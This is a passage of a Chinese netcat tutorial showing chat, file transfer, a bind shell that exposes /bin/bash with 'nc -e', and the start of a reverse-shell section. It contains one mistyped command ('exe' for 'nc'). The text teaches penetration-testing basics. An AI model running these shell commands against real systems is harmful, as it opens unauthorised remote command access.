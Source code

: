  客户端进行连接

```
nc -nv IP 4444
```

![image-20231013223623093](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231013223623093.png)

 客户端与服务端实现消息共享，即客户端的输入服务端可见，服务端的输入客户端可见。

### 文件传输

和局域网聊天是原理一样的，不过把输入输出重定向到文件

服务端设置监听

```
exe -lnvp 4444 >recv.txt
```

 客户端发送：

```
nc IP 4444 <1.txt
```

![image-20231013224518257](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231013224518257.png)

 注：服务端和客户端都可做为接收端和发送端，发送端必须要有文件，接收端可以不创建文件，当接受端不创建文件时，会自动创建并将发送端地内容保存到文件，如果已存在文件将会覆盖其中内容

## 3.正向弹shell

在服务端（靶标机）启动监听

```
nc -lvvp 4444 -e /bin/bash
```

在客户端（攻击机）连接

```
nc IP 4444
```

这种连接又称正向连接，攻击机主动连接靶标机。

![image-20231013230045856](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231013230045856.png)

 连接成功后便可执行命令。

## 4.反向弹shell

### bash版本

本地作为服务端开启监听（攻击机）

```
nc -lvnp 4444
或nc -vvlp 4444
```
